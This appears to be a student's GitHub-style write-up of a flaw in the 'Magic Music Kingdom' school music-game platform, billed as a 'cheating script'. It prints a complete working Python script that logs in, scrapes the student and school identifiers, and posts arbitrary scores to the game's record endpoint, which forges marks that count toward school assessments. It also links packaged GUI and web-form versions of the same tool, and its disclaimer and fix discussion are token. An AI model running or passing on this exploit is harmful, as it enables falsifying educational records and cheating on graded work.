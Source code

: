 > [!CAUTION]
> If anyone uses the following script to engage in activities that will break the school regulations or laws in your jurisdiction, Lee Perseus Robin will not pay any responsibility for the respective activities.

> [!NOTE]
> This article discusses a recent event; please view it with caution.

Since the email vulnerability, Lee Perseus Robin (2G - 16) has found yet again a Vulnerability that could be taken advantage of. 
This time around, it is about the Magic Music Kingdom, used by the Music Department for giving tests on instruments and also counting as SBA marks.

## What is "Magic Music Kingdom"?
> From [Hong Kong Music Publisher](https://www.hkmusic.com.hk/web/apps.asp?lang=en)

Magic Music Kingdom has a series of interactive games with different levels to accommodate your music lessons. 
The games include recognizing notes and rhythm, knowledge about composers and their works, etc. 
All records can be saved for teachers or students to keep track of the learning progress.

## What does the "cheating script" do?
Basically:
1. It pretends to be the user by getting their credentials and retrieving the school code and school ID from the hkmusic.com.hk login page (NEW: Magic Music Kingdom API for the PoC Python Script).
2. It continues to use the same logic that the normal app has and sends a POST request with the information given.
3. Then, the user's record will update to what the user has ordered, hence enabling cheating.

## How to run the cheating script?
- **Windows Version - Based on Python with Tkinter**: [magic-music-kingdom-cheat-ui.zip](https://github.com/user-attachments/files/18041408/magic-music-kingdom-cheat-ui.zip)
- **Google Form Version (Proof of Concept)**: [Google Form](https://forms.gle/etBbtW6QSHtjhE8z9)
- **Source Code for the Google Form (Google Apps Script)**: [Pastebin](https://pastebin.com/raw/7Y2UNSbk)
- **List of Game ID and Games**: [Imgur Album](https://imgur.com/a/8fGM1Hp)

### Python Version (for demonstration purposes only, PoC):
1. Requirments: (pip install) requests
```python
import requests
import re
import math

# Input variables from the user
name_login = input("Enter your login name: ")
password = input("Enter your password: ")
gameID = input("Enter game ID: ")
total_correct = input("Enter total correct answers: ")
total_wrong = input("Enter total wrong answers: ")
highestMaxCombo = input("Enter highest max combo: ")
totalScore = input("Enter total score: ")

# Calculate correct percentage
correct_percent = math.ceil((int(total_correct) * 100) / (int(total_correct) + int(total_wrong))) if (int(total_correct) + int(total_wrong)) > 0 else 0

# Perform login
response_text = requests.get(f"https://www.hkmusic.com.hk/web/student_pages/login/appLoginRegistered.asp?name_login={name_login}&pw={password}").text

# Extract school code and student ID using regex (Student Form Number is optional, doesn't matter)
school_code_match = re.search(r'studentSchoolCode=([^&]*)', response_text)
student_id_match = re.search(r'studentIDcode=([^&]*)', response_text)
student_form_num_match = re.search(r'studentFormNum=([^&]*)', response_text)

school_code = school_code_match.group(1) if school_code_match else None
student_id = student_id_match.group(1) if student_id_match else None
student_form_num = student_form_num_match.group(1) if student_form_num_match else None

print("School code:", school_code, "\nStudent ID:", student_id)

if school_code and student_id:
    # Record URL and parameters
    record_url = "https://www.hkmusic.com.hk/web/shareResources/MusicMagicKingdom_beta2/appMMKaddRecord.asp"
    params = {
        'student_id': student_id,
        'school_code': school_code,
        'gameID': gameID,
        'studentFormNumCurrent': student_form_num,
        'totalCorrect': total_correct,
        'totalWrong': total_wrong,
        'correctPercent': correct_percent,
        'highestMaxCombo': highestMaxCombo,
        'totalScore': totalScore
    }

    # Submit the record
    record_response = requests.session().get(record_url, params=params)
    print("Response Status Code:", record_response.status_code)
    print("Response Content:", record_response.text)
else:
    print("Login failed or could not retrieve student info.")
```
## How to fix the Vulnerability?
The only people who can fix this is the employees in "Hong Kong Music Publisher", which we have a very slim chance of getting their attention. 
Therefore, I propose that we just get rid of Music Magic Kingdom altogether, it ain't that fun, eh?
## How to contact us to get more information about the Vulnerability?
For further inquiries or additional information regarding this vulnerability, please feel free to reach out to me at [perseus@lscstudy.us.kg](mailto:perseus@lscstudy.us.kg), [s23218@lsc.hk](mailto:s23218@lsc.hk) or [perseusrobin@gmail.com](mailto:perseusrobin@gmail.com).
## Additional information
Checking if the person has gotten 10 marks: https://pastebin.com/nDF8zawt
The PoC Python script but using arguements: https://pastebin.com/DHMn6c2u
## Special thanks
The discoverer of the Vulnerability would like to thank the Developers at FFDec and 7-zip, their software has been a massive help for dicovering this.

![image](https://github.com/user-attachments/assets/e016973b-2da3-4b64-82b5-10a30ebad707)